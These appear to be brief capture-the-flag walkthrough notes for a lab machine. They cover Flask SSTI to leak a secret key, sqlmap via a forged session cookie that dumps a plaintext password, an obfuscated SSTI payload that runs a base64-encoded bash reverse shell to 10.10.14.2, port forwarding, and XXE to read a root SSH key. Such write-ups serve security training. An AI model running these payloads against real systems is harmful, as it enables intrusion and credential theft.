 # step one
* get secret_key from ssti with user registration "{{config}}"
* use secret_key with flask_unsign in session cookie together with sqlmap to get password of chiv

+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |

+---------+---------+-----------------------------------------------------------------------------------+---------------------+
| post_id | creator | message                                                                           | timestamp           |
+---------+---------+-----------------------------------------------------------------------------------+---------------------+
| 1       | 1       | Fix the <b>/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal</b> portal! | 2020-04-24 15:02:41 |
+---------+---------+-----------------------------------------------------------------------------------+---------------------+

# step two
* use crazy ssti payload to get rev shell as shiv (support ticket)

{% with n = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo YmFzaCAtYyAgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi85MDAxICAwPiYxJyAK | base64 -d | bash")["read"]() %} a {% endwith %}

* grab chiv key and ssh in
* see locally bound 8080 and forward to attacker box (/var/www/game)

# step three

* crazy XXE in login, basically you inject into <!--xml version="HERE"?--> and into something like <username>"HERE"</username> in body
* use xxe to read /root/.ssh/id_rsa key and login
